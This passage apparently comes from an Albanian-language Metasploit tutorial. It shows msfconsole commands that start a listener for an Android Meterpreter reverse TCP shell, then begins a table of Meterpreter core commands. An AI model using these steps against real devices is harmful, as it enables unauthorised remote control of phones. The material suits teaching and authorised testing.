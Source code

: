 ```
msf6 > use exploit/multi/handler

msf6 > set PAYLOAD android/meterpreter/reverse_tcp

msf6 > set LHOST 192.168.0.12

msf6 > set LPORT 4444

msf6 > exploit
```



<center>
<img width="100%" src="READMEresources/exploit.gif"/>
<figcaption><small><i>Video 4: Përdorimi i modulit <b>exploit</b></i></small></figcaption>
</center>

## Komandat e Meterpreter

### Komandat kryesore

```
Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background

```

#### background dhe bg
